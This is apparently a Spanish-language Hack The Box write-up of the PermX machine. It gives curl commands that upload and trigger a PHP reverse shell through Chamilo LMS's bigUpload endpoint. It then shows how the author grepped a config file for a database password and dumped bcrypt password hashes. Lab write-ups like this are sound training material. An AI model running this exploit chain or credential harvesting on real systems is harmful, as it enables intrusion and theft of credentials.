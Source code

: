     ┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
    The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
    └──╼ #curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
    
    

Curioseando con la reverse shell veo un carpeta mtz en el directorio home de la victima a la que no tenemos acceso... sigo mirando...:

    www-data@permx:/$ cd home
    cd home
    www-data@permx:/home$ ls
    ls
    mtz
    www-data@permx:/home$ cd mtz
    cd mtz
    bash: cd: mtz: Permission denied
    

En la carpeta donde se configura el servidor web busco alguna credencial para el servicio de SSH o algo que resulte util. Vemos un configuration.php interesante, en el encontramos un user y un pass para lo que sería una base de datos:

    www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep pass
    cat configuration.php | grep pass
    $_configuration['db_password'] = '03F6lY3uXAP2bkW8';
    // Security word for password recovery
    $_configuration['password_encryption'] = 'bcrypt';
    ...
    
    
    www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep user 
    cat configuration.php | grep user
    $_configuration['db_user'] = 'chamilo';
    // Map CAS attributes with user/user extrafields values BT#17620
    ...
    
    

A primera vista son las credenciales de una base de datos asi que pruebo a ver si son correctas. Me encuentro con estos hashes de contraseñas, lo primero que pienso es usar HashCat para ver si saco las contraseñas pero como el ordenador no lo da resuelto (espero mucho tiempo jaja) pues decido ir a ver si hay otra solución:

    MariaDB [chamilo]> select username, password from user;
    select username, password from user;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
    | anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
    +----------+--------------------------------------------------------------+
    2 rows in set (0.000 sec)
    